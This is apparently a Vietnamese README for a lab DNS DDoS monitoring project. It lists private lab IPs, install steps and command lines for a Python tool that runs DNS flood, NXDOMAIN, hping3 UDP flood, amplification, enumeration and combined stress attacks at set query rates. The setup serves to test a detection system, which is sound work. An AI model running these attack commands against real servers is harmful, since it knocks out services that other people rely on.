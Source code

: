 # 🎯 Hướng dẫn Sử dụng Attack Tools trên Kali Linux

## 📋 Thông tin Hệ thống
- **Kali IP**: 192.168.85.100
- **DNS Target**: 192.168.85.130
- **Web Target**: 192.168.85.135
- **DNS Resolver**: Đã cấu hình trong `/etc/resolv.conf`

## 🔧 Cài đặt Tools

### Bước 1: Copy project và cài đặt
```bash
# Copy project files
cd ~
tar -xzf dns_ddos_monitor.tar.gz
cd dns_ddos_monitor/attack_tools

# Cài đặt tools
./install_tools.sh
```

### Bước 2: Kiểm tra tools đã cài đặt
```bash
# Kiểm tra dnsperf
dnsperf -h

# Kiểm tra hping3
hping3 -h

# Kiểm tra DNS resolution
dig @192.168.85.130 test.local
```

## 🚀 Các Công cụ Tấn công

### 1. Advanced DNS Attacks (Python)
```bash
# DNS Flood Attack
python3 advanced_dns_attacks.py --attack flood --duration 60 --qps 1000

# NXDOMAIN Attack
python3 advanced_dns_attacks.py --attack nxdomain --duration 60 --qps 500

# UDP Flood với hping3
python3 advanced_dns_attacks.py --attack udp-flood --duration 60 --pps 1000

# DNS Amplification
python3 advanced_dns_attacks.py --attack amplification --duration 60

# Subdomain Enumeration
python3 advanced_dns_attacks.py --attack enumeration --duration 60

# Mixed Attack Scenario
python3 advanced_dns_attacks.py --attack mixed --duration 180

# Stress Test (Tất cả đồng thời)
python3 advanced_dns_attacks.py --attack stress --duration 120
```
